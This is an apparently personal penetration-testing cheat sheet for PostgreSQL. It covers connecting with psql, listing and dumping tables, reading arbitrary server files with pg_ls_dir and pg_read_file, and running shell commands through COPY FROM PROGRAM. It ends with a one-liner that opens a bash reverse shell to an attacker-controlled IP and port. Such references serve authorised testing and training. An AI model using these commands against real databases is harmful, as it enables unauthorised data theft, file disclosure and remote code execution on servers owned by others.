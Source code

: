 ```yaml
---
title: "PostgreSQL"
date: 2025-7-25
tags: ["Database Dumping", "Privilege Escalation In Databases", "Postgresql", "RCE", "Database", "File Read"]
---
```


### Connect

```console
psql -h <TARGET> -U <USER>
```

```console
psql -h <TARGET> -U <USER> -p <PORT> -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

### General

```console
# Show Databases
\list
```

```console
# Use Database
\connect <DB_NAME>
```

```console
# Show Tables
\dt
```

```console
# Dump from Table
select * from "<TABLE_NAME>";
```

```console
# Insert into Table
insert into "<TABLE_NAME>" (<COLUMN_1>, <COLUMN_2>) values ("<VALUE_1>', '<VALUE_2>');
```

```console
# Write Text
copy (select '<STRING>') to '<TARGET_PATH>';
```

```console
# List All User Accounts
\du+
```

```console
# Exit
\q
```

---

### File Read

```console
# List Directory
SELECT * FROM pg_ls_dir('<DIR_PATH>');
``` 

```console
# File Read
SELECT pg_read_file('<FILE_PATH>', 0, 4096);
```

---

### RCE

```console
# Only for Superuser
CREATE TABLE IF NOT EXISTS exec(string text);
```

```console
# Code Execution
COPY exec FROM PROGRAM '<CMD>';
```

```console
# Check Ouput
SELECT * FROM exec;
```

```console
# One-liner
DO $$ DECLARE c text; BEGIN c := 'COPY (SELECT '''') to program ''bash -c "bash -i >& /dev/tcp/<LOCAL_IP>/<PORT> 0>&1"'''; EXECUTE c; END $$;
```